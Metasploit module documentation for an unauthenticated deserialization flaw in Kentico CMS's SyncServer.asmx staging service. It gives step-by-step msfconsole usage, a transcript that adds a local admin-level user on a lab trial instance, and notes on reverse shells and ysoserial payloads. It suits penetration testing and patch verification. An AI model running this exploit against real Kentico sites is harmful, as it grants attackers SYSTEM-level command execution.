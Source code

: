 ## Vulnerable Application

[Kentico CMS](www.kentico.com) CMS platform versions 12.0.14 and earlier are affected by an unauthenticated deserialization vulnerability in the Staging Service which can be leveraged by an attacker to execute arbitrary commands in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is triggered by sending a HTTP POST request to the SyncServer.asmx interface ProcessSynchronizationTaskData method stagingTaskData parameter request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows 10 using exec and adduser payloads against Kentico v11. The vulnerable application is available for download at https://d82ujmuzqhypi.cloudfront.net/Kentico_11_0_trial.exe, https://d82ujmuzqhypi.cloudfront.net/Kentico_12_0_trial.exe, https://www.kentico.com/download-demo

## Verification Steps
  1. Install a vulnerable Kentico CMS Trial version.
  2. Access web instance admin interface at /admin/
  3. Default credentials are 'administrator' with blank password.
  4. Navigate to `Settings`, then expand `Settings` > `Versioning & Synchronization` > `Staging`
  5. Check `Enable Staging Service` and click `Save`
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/kentico_staging_syncserver`
  8. Do `set RHOSTS ip` (Trial is limited to 127.0.0.1 remote HTTP clients, but paid versions are public websites)
  9. Do `set RPORT port` (installs with a random port within IISExpress for at least Trial versions)
  10. Do `check`
  11. Verify the target is detected
  12. Do `set PAYLOAD cmd/windows/generic`
  13. Do `set CMD calc`
  14. Do `exploit`
  15. Verify `calc.exe` launches. 

## Scenarios

### Kentico CMS v11.0 trial on Windows 10

```
msf5 > use exploit/windows/http/kentico_staging_syncserver
msf5 exploit(windows/http/kentico_staging_syncserver) > show options

Module options (exploit/windows/http/kentico_staging_syncserver):

   Name       Current Setting                    Required  Description
   ----       ---------------                    --------  -----------
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                 yes       The target port (TCP)
   SSL        false                              no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /CMSPages/Staging/SyncServer.asmx  yes       Path to SyncServer.asmx
   VHOST                                         no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/kentico_staging_syncserver) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 exploit(windows/http/kentico_staging_syncserver) > set RPORT 62925
RPORT => 62925
msf5 exploit(windows/http/kentico_staging_syncserver) > check
[*] 127.0.0.1:62925 - The service is running, but could not be validated.
msf5 exploit(windows/http/kentico_staging_syncserver) > set PAYLOAD cmd/windows/adduser
PAYLOAD => cmd/windows/adduser
msf5 exploit(windows/http/kentico_staging_syncserver) > exploit

[+] 127.0.0.1:62925 - Payload success!
[*] Exploit completed, but no session was created.
```

```
Microsoft Windows [Version 10.0.18363.720]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net users

User accounts for \\WIN10

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
metasploit
The command completed successfully.


C:\Windows\system32>net user metasploit /del
The command completed successfully.
```

## Notes

  1. The IISExpress config is located in ~/Documents/IISExpress/config/applicationhost.config
  2. Port number can be changed or allow remote access by replacing 'localhost' with '*'
  3. To run IIS on command line, C:\PROGRA~1\IIS Express\iisexpress.exe /site:Kentico11 (etc)
  4. It might be possible to use a CmdStager or FileDropper but couldn't get it working in time. Might be a string limit and has issues with Unicode.
  5. Some reverse or bind payloads work if the environment is right.
  6. Other serialized injections are possible with `ysoserial.exe -f SoapFormatter` but untested.
